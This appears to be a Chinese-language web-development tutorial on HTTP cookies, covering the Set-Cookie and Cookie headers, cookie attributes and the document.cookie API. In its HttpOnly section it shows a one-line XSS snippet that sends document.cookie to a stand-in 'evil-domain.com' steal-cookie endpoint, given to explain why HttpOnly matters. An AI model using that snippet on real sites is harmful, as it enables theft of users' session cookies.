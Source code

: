 ******
Cookie
******

概述
====
``Cookie`` 是服务器保存在浏览器的一小段文本信息，每个 ``Cookie`` 的大小一般不能超过 ``4KB`` 。浏览器每次向服务器发出请求，就会自动附上这段信息。

``Cookie`` 主要用来分辨两个请求是否来自同一个浏览器，以及用来保存一些状态信息。它的常用场合有以下一些。

- 对话（session）管理：保存登录、购物车等需要记录的信息。
- 个性化：保存用户的偏好，比如网页的字体大小、背景色等等。
- 追踪：记录和分析用户行为。

有些开发者使用 ``Cookie`` 作为客户端储存。这样做虽然可行，但是并不推荐，因为 ``Cookie`` 的设计目标并不是这个，它的容量很小（4KB），缺乏数据操作接口，而且会影响性能。客户端储存应该使用 ``Web storage API`` 和 ``IndexedDB`` 。

``Cookie`` 包含以下几方面的信息。

- ``Cookie`` 的名字
- ``Cookie`` 的值（真正的数据写在这里面）
- 到期时间
- 所属域名（默认是当前域名）
- 生效的路径（默认是当前网址）

举例来说，用户访问网址 ``www.example.com`` ，服务器在浏览器写入一个 ``Cookie`` 。这个 ``Cookie`` 就会包含 ``www.example.com`` 这个域名，以及根路径 ``/`` 。这意味着，这个 ``Cookie`` 对该域名的根路径和它的所有子路径都有效。如果路径设为 ``/forums`` ，那么这个 ``Cookie`` 只有在访问 ``www.example.com/forums`` 及其子路径时才有效。以后，浏览器一旦访问这个路径，浏览器就会附上这段 ``Cookie`` 发送给服务器。

浏览器可以设置不接受 ``Cookie`` ，也可以设置不向服务器发送 ``Cookie`` 。 ``window.navigator.cookieEnabled`` 属性返回一个布尔值，表示浏览器是否打开 ``Cookie`` 功能。

.. code-block:: js

	// 浏览器是否打开 Cookie 功能
	window.navigator.cookieEnabled // true

``document.cookie`` 属性返回当前网页的 ``Cookie`` 。

.. code-block:: js

	// 当前网页的 Cookie
	document.cookie

不同浏览器对 ``Cookie`` 数量和大小的限制，是不一样的。一般来说，单个域名设置的 ``Cookie`` 不应超过 30 个，每个 ``Cookie`` 的大小不能超过 4KB 。超过限制以后， ``Cookie`` 将被忽略，不会被设置。

浏览器的同源政策规定，两个网址只要域名相同和端口相同，就可以共享 ``Cookie`` 。注意，这里不要求协议相同。也就是说， ``http://example.com`` 设置的 ``Cookie`` ，可以被 ``https://example.com`` 读取。


Cookie 与 HTTP 协议
===================
``Cookie`` 由 ``HTTP`` 协议生成，也主要是供 ``HTTP`` 协议使用。

HTTP 回应：Cookie 的生成
-----------------------
服务器如果希望在浏览器保存 ``Cookie`` ，就要在 ``HTTP`` 回应的头信息里面，放置一个 ``Set-Cookie`` 字段。

.. code-block:: shell

	Set-Cookie:foo=bar

上面代码会在浏览器保存一个名为 ``foo`` 的 ``Cookie`` ，它的值为 ``bar`` 。

``HTTP`` 回应可以包含多个 ``Set-Cookie`` 字段，即在浏览器生成多个 ``Cookie`` 。下面是一个例子。

.. code-block:: shell

	HTTP/1.0 200 OK
	Content-type: text/html
	Set-Cookie: yummy_cookie=choco
	Set-Cookie: tasty_cookie=strawberry

	[page content]

除了 ``Cookie`` 的值， ``Set-Cookie`` 字段还可以附加 ``Cookie`` 的属性。

.. code-block:: shell

	Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
	Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
	Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
	Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
	Set-Cookie: <cookie-name>=<cookie-value>; Secure
	Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly

上面的几个属性的含义，将在后文解释。

一个 ``Set-Cookie`` 字段里面，可以同时包括多个属性，没有次序的要求。

.. code-block:: shell

    Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure; HttpOnly

下面是一个例子。

.. code-block:: shell

    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

如果服务器想改变一个早先设置的 ``Cookie`` ，必须同时满足四个条件： ``Cookie`` 的 ``key、domain、path`` 和 ``secure`` 都匹配。举例来说，如果原始的 ``Cookie`` 是用如下的 ``Set-Cookie`` 设置的。

.. code-block:: shell

    Set-Cookie: key1=value1; domain=example.com; path=/blog

改变上面这个 ``Cookie`` 的值，就必须使用同样的 ``Set-Cookie`` 。

.. code-block:: shell

    Set-Cookie: key1=value2; domain=example.com; path=/blog

只要有一个属性不同，就会生成一个全新的 ``Cookie`` ，而不是替换掉原来那个 ``Cookie`` 。

.. code-block:: shell

    Set-Cookie: key1=value2; domain=example.com; path=/

上面的命令设置了一个全新的同名 ``Cookie`` ，但是 ``path`` 属性不一样。下一次访问 ``example.com/blog`` 的时候，浏览器将向服务器发送两个同名的 ``Cookie`` 。

.. code-block:: shell

    Cookie: key1=value1; key1=value2

上面代码的两个 ``Cookie`` 是同名的，匹配越精确的 ``Cookie`` 排在越前面。

HTTP 请求：Cookie 的发送
-----------------------
浏览器向服务器发送 ``HTTP`` 请求时，每个请求都会带上相应的 ``Cookie`` 。也就是说，把服务器早前保存在浏览器的这段信息，再发回服务器。这时要使用 ``HTTP`` 头信息的 ``Cookie`` 字段。

.. code-block:: shell

    Cookie: foo=bar

上面代码会向服务器发送名为 ``foo`` 的 ``Cookie`` ，值为 ``bar`` 。

``Cookie`` 字段可以包含多个 ``Cookie`` ，使用分号（;）分隔。

.. code-block:: shell

    Cookie: name=value; name2=value2; name3=value3

下面是一个例子。

.. code-block:: shell

	GET /sample_page.html HTTP/1.1
	Host: www.example.org
	Cookie: yummy_cookie=choco; tasty_cookie=strawberry

服务器收到浏览器发来的 ``Cookie`` 时，有两点是无法知道的。

- ``Cookie`` 的各种属性，比如何时过期。
- 哪个域名设置的 ``Cookie`` ，到底是一级域名设的，还是某一个二级域名设的。

Cookie 的属性
=============

Expires，Max-Age
----------------
``Expires`` 属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 ``Cookie`` 。它的值是 ``UTC`` 格式，可以使用 ``Date.prototype.toUTCString()`` 进行格式转换。

.. code-block:: shell

    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;

如果不设置该属性，或者设为 ``null`` ， ``Cookie`` 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 ``Session`` 结束，该 ``Cookie`` 就会被删除。另外，浏览器根据本地时间，决定 ``Cookie`` 是否过期，由于本地时间是不精确的，所以没有办法保证 ``Cookie`` 一定会在服务器指定的时间过期。

``Max-Age`` 属性指定从现在开始 ``Cookie`` 存在的秒数，比如 ``60 * 60 * 24 * 365`` （即一年）。过了这个时间以后，浏览器就不再保留这个 ``Cookie`` 。

如果同时指定了 ``Expires`` 和 ``Max-Age`` ，那么 ``Max-Age`` 的值将优先生效。

如果 ``Set-Cookie`` 字段没有指定 ``Expires`` 或 ``Max-Age`` 属性，那么这个 ``Cookie`` 就是 ``Session Cookie`` ，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 ``Cookie`` 。

Domain，Path
------------
``Domain`` 属性指定浏览器发出 ``HTTP`` 请求时，哪些域名要附带这个 ``Cookie`` 。如果没有指定该属性，浏览器会默认将其设为当前 ``URL`` 的一级域名，比如 ``www.example.com`` 会设为 ``example.com`` ，而且以后如果访问 ``example.com`` 的任何子域名， ``HTTP`` 请求也会带上这个 ``Cookie`` 。如果服务器在 ``Set-Cookie`` 字段指定的域名，不属于当前域名，浏览器会拒绝这个 ``Cookie`` 。

``Path`` 属性指定浏览器发出 ``HTTP`` 请求时，哪些路径要附带这个 ``Cookie`` 。只要浏览器发现， ``Path`` 属性是 ``HTTP`` 请求路径的开头一部分，就会在头信息里面带上这个 ``Cookie`` 。比如， ``PATH`` 属性是 ``/`` ，那么请求 ``/docs`` 路径也会包含该 ``Cookie`` 。当然，前提是域名必须一致。

Secure，HttpOnly
----------------
``Secure`` 属性指定浏览器只有在加密协议 ``HTTPS`` 下，才能将这个 ``Cookie`` 发送到服务器。另一方面，如果当前协议是 ``HTTP`` ，浏览器会自动忽略服务器发来的 ``Secure`` 属性。该属性只是一个开关，不需要指定值。如果通信是 ``HTTPS`` 协议，该开关自动打开。

``HttpOnly`` 属性指定该 ``Cookie`` 无法通过 ``JavaScript`` 脚本拿到，主要是 ``Document.cookie`` 属性、 ``XMLHttpRequest`` 对象和 ``Request API`` 都拿不到该属性。这样就防止了该 ``Cookie`` 被脚本读到，只有浏览器发出 ``HTTP`` 请求时，才会带上该 ``Cookie`` 。

.. code-block:: js

    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 ``Cookie`` 发往第三方服务器。如果设置了一个 ``Cookie`` 的 ``HttpOnly`` 属性，上面代码就不会读到该 ``Cookie`` 。

document.cookie
===============
``document.cookie`` 属性用于读写当前网页的 ``Cookie`` 。

读取的时候，它会返回当前网页的所有 ``Cookie`` ，前提是该 ``Cookie`` 不能有 ``HTTPOnly`` 属性。

.. code-block:: js

    document.cookie // "foo=bar;baz=bar"

上面代码从 ``document.cookie`` 一次性读出两个 ``Cookie`` ，它们之间使用分号分隔。必须手动还原，才能取出每一个 ``Cookie`` 的值。

.. code-block:: js

	var cookies = document.cookie.split(';');

	for (var i = 0; i < cookies.length; i++) {
	  console.log(cookies[i]);
	}
	// foo=bar
	// baz=bar

``document.cookie`` 属性是可写的，可以通过它为当前网站添加 ``Cookie`` 。

.. code-block:: js

    document.cookie = 'fontSize=14';

写入的时候， ``Cookie`` 的值必须写成 ``key=value`` 的形式。注意，等号两边不能有空格。另外，写入 ``Cookie`` 的时候，必须对分号、逗号和空格进行转义（它们都不允许作为 ``Cookie`` 的值），这可以用 ``encodeURIComponent`` 方法达到。

但是， ``document.cookie`` 一次只能写入一个 ``Cookie`` ，而且写入并不是覆盖，而是添加。

.. code-block:: js

	document.cookie = 'test1=hello';
	document.cookie = 'test2=world';
	document.cookie
	// test1=hello;test2=world

``document.cookie`` 读写行为的差异（一次可以读出全部 ``Cookie`` ，但是只能写入一个 ``Cookie`` ），与 ``HTTP`` 协议的 ``Cookie`` 通信格式有关。浏览器向服务器发送 ``Cookie`` 的时候， ``Cookie`` 字段是使用一行将所有 ``Cookie`` 全部发送；服务器向浏览器设置 ``Cookie`` 的时候， ``Set-Cookie`` 字段是一行设置一个 ``Cookie`` 。

写入 ``Cookie`` 的时候，可以一起写入 ``Cookie`` 的属性。

.. code-block:: js

    document.cookie = "foo=bar; expires=Fri, 31 Dec 2020 23:59:59 GMT";

上面代码中，写入 ``Cookie`` 的时候，同时设置了 ``expires`` 属性。属性值的等号两边，也是不能有空格的。

各个属性的写入注意点如下。

- ``path`` 属性必须为绝对路径，默认为当前路径。
- ``domain`` 属性值必须是当前发送 ``Cookie`` 的域名的一部分。比如，当前域名是 ``example.com`` ，就不能将其设为 ``foo.com`` 。该属性默认为当前的一级域名（不含二级域名）。
- ``max-age`` 属性的值为秒数。
- ``expires`` 属性的值为 ``UTC`` 格式，可以使用 ``Date.prototype.toUTCString()`` 进行日期格式转换。

``document.cookie`` 写入 ``Cookie`` 的例子如下。

.. code-block:: js

	document.cookie = 'fontSize=14; '
	  + 'expires=' + someDate.toGMTString() + '; '
	  + 'path=/subdirectory; '
	  + 'domain=*.example.com';

``Cookie`` 的属性一旦设置完成，就没有办法读取这些属性的值。

删除一个现存 ``Cookie`` 的唯一方法，是设置它的 ``expires`` 属性为一个过去的日期。

.. code-block:: js

    document.cookie = 'fontSize=;expires=Thu, 01-Jan-1970 00:00:01 GMT';

上面代码中，名为 ``fontSize`` 的 ``Cookie`` 的值为空，过期时间设为1970年1月1月零点，就等同于删除了这个 ``Cookie`` 。